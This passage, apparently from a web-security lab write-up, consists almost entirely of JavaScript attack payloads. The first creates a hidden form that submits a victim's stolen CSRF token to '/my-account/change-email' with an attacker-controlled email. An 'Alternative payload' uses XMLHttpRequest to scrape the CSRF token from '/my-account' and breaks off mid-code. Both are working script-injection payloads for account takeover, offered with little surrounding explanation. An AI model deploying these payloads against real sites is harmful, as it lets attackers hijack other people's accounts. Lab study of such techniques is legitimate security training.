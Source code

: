 ```

    // Create a form to submit the CSRF request

    const form = document.createElement('form');

    form.action = '/my-account/change-email';

    form.method = 'POST';

    // Add the email field (attacker's email)

    const emailField = document.createElement('input');

    emailField.type = 'hidden';

    emailField.name = 'email';

    emailField.value = 'attacker@example.com'; // attacker-controlled email

    form.appendChild(emailField);

    // Add the CSRF token field

    const csrfField = document.createElement('input');

    csrfField.type = 'hidden';

    csrfField.name = 'csrf';

    csrfField.value = token;

    form.appendChild(csrfField);

    // Append the form to the body and submit it

    document.body.appendChild(form);

    form.submit();

  };

});

</script>
```

**Alternative payload**
```
<script>

var req = new XMLHttpRequest();

req.onload = handleResponse;

req.open('get','/my-account',true);

req.send();

function handleResponse() {

    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];

    var changeReq = new XMLHttpRequest();

```